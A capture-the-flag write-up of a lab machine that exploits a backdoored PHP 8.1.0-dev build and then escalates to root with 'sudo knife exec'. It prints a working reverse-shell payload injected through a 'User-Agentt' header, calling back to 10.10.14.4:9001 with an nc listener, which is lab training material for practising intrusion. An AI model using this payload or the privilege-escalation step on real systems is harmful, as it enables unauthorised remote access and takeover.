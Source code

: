 ## Phase 1: Enumeration

As always we start off with an nmap scan:

![](/images/user.png)

Nmap didn't show any outdated services, so we can check out the website. By visiting http://10.10.10.242 we can see that it's a static page - nothing interesting there.
> Checking the source code with Ctrl+U doesn't show anything interesting either, however
> after going over to network tab through developer tools I saw this response header: ```X-Powered-By: PHP/8.1.0-dev```
* Since PHP 8.1.0 is outdated it's probably vulnerable to an exploit => ```https://www.exploit-db.com/exploits/49933```

## Phase 2: Exploitation

First I set up nc to listen on port 9001 (nc -lvnp 9001), then
I used Burp Suite and FoxyProxy to intercept request of http://10.10.10.242/ and send this request:

![](/images/request.png)
* Added ```User-Agentt:zerodiumsystem("bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1 '");```

I sent the request and got a reverse shell: 

![](/images/user.png)

I then navigated to home/james and used ```cat user.txt``` to obtain the user flag.

![](/images/userblur.png)

## Phase 3: Privilege escalation

I started things out by running sudo -l to see which commands can be executed as sudo on this machine, as it turns out, we can execute /usr/bin/knife. Great!

![](images/sudocmd.png)

So now I simply executed ```sudo knife exec --exec "exec '/bin/sh -i' "``` in the command line to get root.
After that I navigated to /root and used ```cat root.txt``` to get root flag.

![](/images/rootflagblur.png)

And the box is complete!
